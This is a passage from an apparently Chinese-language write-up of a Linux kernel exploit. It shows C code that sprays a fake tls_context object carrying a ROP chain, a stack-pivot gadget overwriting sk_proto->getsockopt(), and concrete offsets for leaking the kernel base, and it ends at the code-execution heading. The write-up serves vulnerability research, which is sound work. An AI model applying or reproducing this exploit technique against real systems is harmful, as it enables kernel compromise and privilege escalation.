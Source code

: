```bash
#define SK_PROTO_OFF (136)
    /* Prepare sk_proto overwrite, getsockopt() overwrite,
     * stack pivot, and ROP chain contents. */
    char *spray = (char *)mgr->spray;
    prepare_rop(&spray[8], kernel_base);
    *(uint64_t*)&spray[GETSOCKOPT_OFF] = kernel_base + STACK_PIVOT_OFF;;
    *(uint64_t*)&spray[SK_PROTO_OFF] = tls_context;

    ...

    return SUCC;
}
```

最后，我们提取出所有需要的信息，计算我们要用来覆盖`tls_context`对象的数据，为了更详细地说明此函数，我们分为两个阶段：

*   泄漏`tls_context`数据：
    *   `tls_context`列表头的 next 指针地址，这使我们能够通过从`list.next`中减去 0x98 来计算`tls_context`的地址，
    *   存储在`sk_proto`中的`tcp_prot`地址，这允许我们通过从`&tcp_prot`中减去 0x180b660 来计算内核基地址，
*   准备伪造的 tls\_context 数据：
    *   为了使用一组 ROP 小工具覆盖`tls_context`的一部分，
    *   覆盖`sk_proto`为`tls_context`地址，因此，现在`tls_context`对象的一部分包含了我们的虚假`proto`对象，
    *   使用一个栈旋转小工具的地址覆盖`sk_proto->getsockopt()`，请记住，由于某种魔法，`sk_proto == &tls_context`，虚假栈将从`tls_context`对象内部开始，具体来说就是我们编写 ROP 链的地方，  
        然后，我们将用我们的虚假`tls_context`重新分配以前被释放的`msg_msgseg`

[![](assets/1701612436-03b99833a3e78598646ffab864bb7a89.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230626154734-b6775c72-13f5-1.png)

正如我们所看到的，`tls_context`对象扮演了多个角色，它部分地是一个实现我们的堆栈旋转`getsockopt()`的虚假`proto`对象，它还部分地是一个虚假的堆栈，其中包含 ROP 链，

## 代码执行
